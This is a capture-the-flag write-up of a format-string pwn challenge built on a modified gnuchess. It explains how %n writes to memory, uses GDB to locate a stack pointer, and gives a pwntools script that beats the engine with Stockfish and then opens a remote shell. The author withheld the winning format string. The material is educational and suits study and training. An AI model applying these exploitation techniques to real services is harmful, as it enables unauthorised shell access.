 ```yaml
---
layout: post
title: che%s%s
description: Who doesn\'t love a good game a chess?
tags: pwn secchallenge22
permalink: /sc22/pwn/chess
hidden: 1
---
```


## Description

Ohh no! Someone just broke into our system!

Ok, now they are stealing the source code of our unbeatable che%s%s engine. Aaaand we are locked out of our che%s%s service...

We managed to capture their modified source code while the bad folks uploaded a new version of our software.

Could you help us get inside again?

`nc chess.secchallenge.crysys.hu 5017`

- Author: tcs
- Attachments: [chess](/media/sc22/pwn/chess/chess), [chess-src.tar.gz](/media/sc22/pwn/chess/chess-src.tar.gz)

## Solution

### 0x1 basic information

Just based on the title of the challenge, one can assume, that we are looking at a format string vulnerability.

Since we are given the source code of the challenge, we can quickly identify, that it is a modified version of `gnuchess-6.2.9`. Pulling the original source, and diffing it to the "leaked" source, we can see, that the following parts were modified:

In `main.cc`:
```c
int *solved = (int*) calloc(1, 1);

...

if(*solved == 0xb055){
system("/bin/sh");
exit(1);
}
```

and in `frontend/engine.cc`:
```c
if(strcmp(engineinput, "1-0 {White mates}\n") == 0){
  puts("Congrats! Here is your reward:");
  printf(name);
}
```

What we are looking at here, is an arbitrary memory write using `printf`.
In a nutshell, format strings work in the following way:

If you supply format characters in the format string part of the function call, the function will expect, that you have placed the variables on the stack according to the format characters. What if not? You are leaking the stack of your program. 

But how can we write data? This is where the `%n` format character comes into play. If you look up the manpage of `printf` for example, it says:

>The  number  of  characters written so far is stored into the integer pointed to by the corresponding argument.  That argument shall be an int \*, or variant whose size matches  the  (optionally)  supplied  integer length modifier.  No argument is converted.  (This specifier is not supported by the bionic C library.)   The  behavior is  undefined if the conversion specification includes any flags, a field width, or a precision.

And luckily for us, the `solved` variable is an `int *`, so we have everything in order to exploit the code, and get a shell.

### 0x2 exploit

Since we are playing a proper chess engine, even when setting the `depth` of the engine to `1` gives us a tough opponent. So obviously we just get another, preferably better, engine to play for us. For this I chose [stockfish](https://stockfishchess.org/), which is a well-known engine, and after a bit of googling I set it up using [pychess](https://pypi.org/project/PyChess/).

Implementing basic I/O communication as usual, and we have a stable way of getting to the part, where we can exploit the format string.

The creators of the challenge were kind enough to put the `solved` variable onto the stack. We only had to figure out, where exactly it is.
This is the part where `GDB` came in handy. Breaking at the `printf` call, we can examine the stack. 
Looking at the trace, we can see that we are one function call deep from main, namely inside `NextEngineCmd()`.  Disassemblying it, we can see, that it actually allocates quite a huge stackframe:
```
   0x000055555556a8d1 <+4>:    push   rbp
   0x000055555556a8d2 <+5>:    mov    rbp,rsp
   0x000055555556a8d5 <+8>:    sub    rsp,0x1000
```
This means, that the solved variable will be quite far from us. To find its exact location we can break at the line in `main` where the variable gets compared:
```
   0x000055555555984d <+2780>:    mov    rax,QWORD PTR [rbp-0x1d8]
   0x0000555555559854 <+2787>:    mov    eax,DWORD PTR [rax]
   0x0000555555559856 <+2789>:    cmp    eax,0xb055
   0x000055555555985b <+2794>:    jne    0x555555559873 <main+2818>
   0x000055555555985d <+2796>:    lea    rdi,[rip+0x4395d]        # 0x55555559d1c1
   0x0000555555559864 <+2803>:    call   0x555555558810 <system@plt>
```
From here, we can use the `x/Ngx $rsp` syntax, where `N` is a positive integer in order to find the pointer of `solved`. (You are looking for a heap address on the stack).

If you found the `N`, you know where your your variable is, which you have to overwrite. Since it will be quite far, and your format string is limited to \~50 characters, you will have to use another trick, to directly access any "argument" of the stack (Look into the `%N$p` syntax). Since the call to `printf` will also allocate some memory on the stack, you will have to find the exact position using the format string vuln, and dumping the memory around the offset using the aforementioned syntax, until you find the exact position.

The script I wrote to solve this challenge automates everything except finding the offset, but to not give the students an instant solution I will remove the winning format string from my code.

```python
import chess
from pwn import *
import chess.engine
import time
import re
import signal
import sys

# exit gracefully on Ctrl + C
def signal_handler(sig, frame):
	engine.quit()
	exit()

# register signal handler
signal.signal(signal.SIGINT, signal_handler)

pr = log.progress("White winning")

# set up board and stockfish
engine = chess.engine.SimpleEngine.popen_uci("/usr/games/stockfish")
limit = chess.engine.Limit(depth=14)
board = chess.Board()

#with process(["gdb", "./chess"]) as p:
	#p.sendline(b'b *NextEngineCmd+931')
	#p.sendline(b'r')
with remote("chess.secchallenge.crysys.hu", 5017) as p:
	# initial setup, nerfing the chall
	p.recvuntil(b'White (1) : ').decode()
	success("Nerfed challenge to oblivion")
	p.sendline(b"depth 1")
	p.recvuntil(b'White (1) : ').decode()
	p.sendline(WIN)
	p.recvuntil(b'White (1) : ').decode()

	movecount = 1

	while True:

		# get the next engine move
		engine_ret = engine.play(board, limit, info=chess.engine.Info.SCORE)
		pr.status(str(engine_ret.info['score'].white()))

		# send engine move to the challenge
		san_move = board.san(engine_ret.move)

		# if we checkmate, go interactive
		if "#" in san_move:
			#print(f"Winning move: {san_move}")
			#p.interactive()
			p.sendline(san_move.encode())
			pr.success("White checkmates")
			rec = f'White ({movecount}) : '
			p.recvuntil(rec.encode()).decode()
			success("Enjoy your shell")
			p.interactive()

		# if not checkmate, let it play it out
		p.sendline(san_move.encode())

		# update local board
		board.push(engine_ret.move)

		movecount += 1

		# wait for the next prompt
		rec = f'White ({movecount}) : '
		answer = p.recvuntil(rec.encode()).decode()
		parsed_move = re.findall(r'My move is : .*\n', answer)[0].strip('\n').split(' ')[-1]

		# push the move received to the board
		board.push_san(parsed_move)
``` 

The acquired flag is:
```
cd22{HIDDEN}
```

[&#8592; Back to SecChallenge22](/sc22)
